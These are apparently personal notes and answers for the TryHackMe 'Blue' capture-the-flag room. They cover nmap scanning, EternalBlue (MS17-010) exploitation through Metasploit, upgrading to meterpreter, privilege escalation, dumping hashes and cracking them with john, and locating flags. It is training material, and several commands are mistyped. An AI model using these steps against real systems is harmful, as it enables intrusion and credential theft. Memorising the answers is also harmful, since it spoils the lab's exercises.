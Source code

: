 ##########
Twitter @SteveIrwinCyber
##########

Blue
Tryhackme.com
############

### TASK 1: Scan and learn what exploit this machine is vulnerable to.
    target: 
    scan run: namp -A -T4 10.10.119.101
    nmap =sV 10.10.119.101

    135
    139
    445- Windows 7 professional 6701 Service pack 1
    3389

  ### Q1: What ports are open/how many under 1000
    3
  ### Q2: What is this machine vulnerable to (ie: ms08-067)
    Eternal Blue
    ms17-010
  

### Task 2: Exploit machine and gain foothold
    msfconsole
   
### Q1: What is the exploit full path
    exploit/windows/smb/ms17_010_eternalblue
### Q2: What is required value 
    RHOSTS 
### Task 3: Escalate privlidges, learn how to upgrade shells in metasploit
    background session
    use post/multi/manage/shell_to_meterpreter
    set sesion 2
### Task 4: Dump non-default user's password and crack it
    getsystem
    shell
    whoami
    ps
    migrate 2860
    hashdump
    john hashes --worldlist=/usr/share/wordlits/rockyou.txt --format=NT
### Task 5: Find 3 flags planted on this machine 
    ls C:\
    ls C:\users\jon\documents
    ls c:\windows\system32\config
